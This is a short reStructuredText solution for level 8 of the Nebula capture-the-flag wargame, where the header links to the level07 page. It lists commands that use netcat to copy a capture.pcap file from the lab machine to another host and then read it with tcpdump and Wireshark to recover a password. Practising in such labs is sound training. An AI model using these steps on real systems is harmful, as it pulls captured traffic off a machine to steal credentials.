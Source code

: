 .. _nebula08:

.. role:: bash(code)
	  :language: bash

Nebula 8
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**No Source Code Given**

Solution
--------

.. code-block:: bash

		$ tcpdump -qns 0 -X -r capture.pcap
		$ nc -l 2001 > capture.pcap
		$ nc 10.211.55.2 2001 < capture.pcap

Open wireshark and look Wireshark and go to Analize -> Follow TCP stream, this will give you the password.
      
